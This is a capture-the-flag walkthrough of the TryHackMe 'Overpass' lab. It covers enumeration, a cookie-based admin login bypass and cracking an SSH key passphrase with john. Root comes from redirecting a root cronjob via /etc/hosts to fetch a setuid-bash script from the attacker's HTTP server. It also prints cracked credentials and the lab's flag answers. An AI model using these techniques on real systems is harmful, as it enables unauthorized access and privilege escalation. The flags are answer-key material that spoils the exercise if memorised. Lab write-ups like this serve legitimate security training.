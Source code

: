 # Overpass 1

* IP = 10.10.235.228

## Questions/Tasks:

* Starting with a nmap scan to discover open ports:`nmap -sC -sV $IP`

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
* Next we enumerate the webpage with *gobuster*:`gobuster -u "http://IP/" -w common.txt`

### Gobuster Scan Results:
```
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
```
* Net we tried some basic recon over the whole webpage:<br>
![Screenshot](./assets/1.png)
<center>Main Page</center><br>
![Screenshot](./assets/3.png)
<center>Main Page Source</center><br>
![Screenshot](./assets/4.png)
<center>About Us Page</center><br>
![Screenshot](./assets/2.png)
<center>Downloads Page</center><br>
* Here we downloaded the source code and the build script.
* Only interesting thing about the source was:
```go
func rot47(input string) string {}
```
* Which indicated usage of ROT47 for encryption, and:
```go
credsPath, err := homedir.Expand("~/.overpass")
```
* Which tells us about the location of storing credentials...
* Next we visited the **/admin** page:<br>
![Screenshot](./assets/5.png)
* Now, as the hint says, no need to brute force, So we looked for source codes:
* In the main.js file we found this function:
```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
* In the console of DevTools we set a cookie with `Cookies.set("SessionToken","AnythingForTest")`, and reloaded the page:<br>
![Screenshot](./assets/6.png)
* And voila! we got an encrypted rsa private key; look carefully it says for `James` hence the username is `james`.
* Copy the text into a file and change permissions with:`chmod 600 id_rsa`
* Next, to crack the passphrase, create a hash:`python ssh2john.py id_rsa > hash.txt`, then crack with:<br>
`john hash.txt --wordlist=rockyou.txt`

* We get the cracked passphrase as `james13`, now SSH into the server with:`ssh -i id_rsa james@IP`.
* Just like that we get the user flag...
* Tried some basic recon on the james' home directory and got these:<br>
![Screenshot](./assets/8.png)
* The encrypted contents decrypted with an online tool:<br>
![Screenshot](./assets/7.png)
```JSON
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

1. Hack the machine and get the flag in user.txt

**Ans-thm{65c1aaf000506e56996822c6281e6bf7}**

* Firstly we tried `sudo -l` to check commands that can be run as root, but `james` is not in sudo group.
* No interesting SUID/SGID binaries either...
* Finally checked the crontab and found this:<br>
![Screenshot](./assets/10.png)
* Also we have read and write permissions in /etc/hosts:<br>
![Screenshot](./assets/11.png)<br>
* Thus we can edit the `/etc/hosts` file to change the hostname `overpass.thm` IP to our IP:<br>
![Screenshot](./assets/12.png)
* Now save the changes and build a custom script `buildscript.sh` in **local machine** to get a root shell, since the cronjob is run by **root** in every minute!!
* Put the file inside `./downloads/src/`.
* Start a python server with port 80 on local machine:`sudo python3 -m http.server 80`<br>
![Screenshot](./assets/13.png)
* Waiting for a minute and half for the cronjob to run, we get a root shell according to the custom script.


* I personally just added `chmod +s /bin/bash` to **buildscript.sh**, so after a minute the permissions of /bin/bash of the server changed to a setuid binary
* Now I used `/bin/bash -p` to get a root shell

2. Escalate your privileges and get the flag in root.txt

**Ans-thm{7f336f8c359dbac18d54fdd64ea753bb}**


**PS** Anyone wondering where would be the Tryhackme coupon code, just visit */home/tryhackme*, see the contents of *.overpass*, decrypt it, and you'll get it!! Though it's invalid now...🥲
